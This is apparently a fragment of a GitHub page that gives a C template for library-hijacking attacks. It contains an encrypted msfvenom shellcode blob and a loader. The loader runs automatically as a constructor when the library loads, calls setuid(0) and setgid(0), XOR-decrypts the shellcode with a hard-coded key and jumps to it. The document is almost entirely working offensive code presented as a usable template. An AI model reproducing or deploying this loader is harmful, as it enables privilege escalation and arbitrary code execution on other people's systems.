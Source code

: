 ```c
}
```
The below is an example of executing XOR encrypted shellcode within the template
```c
// msfvenom XOR shellcode runner
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static void Warhead() __attribute__((constructor));

//Symbols go here

void Warhead() {
    setuid(0);
    setgid(0);
    printf("DLL HIJACKING IN PROGRESS \n");

// Output from encrypter.cs. Just ensure to remove the main function from the output before placing below
unsigned char Warhead[] = 
"\x99\x97\x24\x53\x5F\xC2\xF4\x83\xAE\x75\x8F\xE7\x26\x53\x5E\xF8"
"\xB6\x4F\x07\x48\x8D\x77\x37\xFF\xC6\x14\x31\x40\x5B\x52\x06\xB7"
"\xFF\x3E\x44\x07\x5A\x94\xE6\xFF\x93\x58\xAB\xFF\xFF\x8D\xA1\x3B"
"\xFA\x36\x38\xF2\x31\xA1\xE4\x9F\x0F\x1B\xEC\x46\x3A\xF2\x30\x9B"
"\x17\x53\xA6\x26\xEE\xD6\x2B\x5E\xA8\x77\x90\x5C\xBB\xE8\x65\x16"
"\xE3\x9F\x9B\x64\xFB\x88\x47\x91\xF0\xF9\xB7\x5E\x91\xEE\x19\x96"
"\x42\x41\x42\x4A\x34\x19\x98\xE5\xB7\x1E\x54\x31\x40\x4A\x35\x23"
"\x60\x29\x1E\x23\x56\xA1\x51\xE6\xAD\xCF\xE7\x26\x72\x42\xDD\x61"
"\x99\x27\x95\xDC\x8C\xF2\xFF\x94\x48\x8E\xCD\xE6\x94\x56\x60\xE7"
"\x2E\x92\xC5\x69\x47\x86\xDB\xBF\x28\x96\xC9\x20\x9E\xA9\x75\x3D"
"\x2C\xF5\x0A\x18\x45\x62\xAA\x28\x9A\xDF\x15\xFE\x0A\x15\x5E\x34"
"\xFF\x0A\x36\x47\xF4\xC5\x62\x40\x75\x6C\xF1\x6F\x1A\x57\xE8\x6F"
"\x18\x24\x57\xFA\xE7\xD9\x1D\x1F\x73\xB1\xA0\xB7\x32\xB5\xFE\x28"
"\x96\xF9\x07\xBF\x3A\x75\x35\x35\xA0\x65\x46\x57\xE8\x6F\x19\x3A"
"\x56\x92\x66\x14\x07\x48\x07\x8C\x38\x75\x1F\x07\xAA\x28\x96\xF8"
"\x25\x9E\x96\x10\x1A\x34\xF6\x3F\x57\x9A\xAD\xD6\xA7\x75\x23\x35"
"\xC5\x61\x40\x10\x68\xF1\x0A\x61\x45\x62\xAA\x28\x9A\xDF\x15\x42"
"\x9F\xF9\x72\x42\xBB\xE8\x5B\x52\x72";

    unsigned char launch_codes[5] = {0x72, 0xB0, 0x7F, 0x00, 0x00};
    int arraysize = (int) sizeof(Warhead);
    for (int i=0; i<arraysize-1; i++)
    {
        Warhead[i] = Warhead[i]^launch_codes[i % 5];
    }
    int (*ret)() = (int(*)())Warhead;
    ret();

}
```
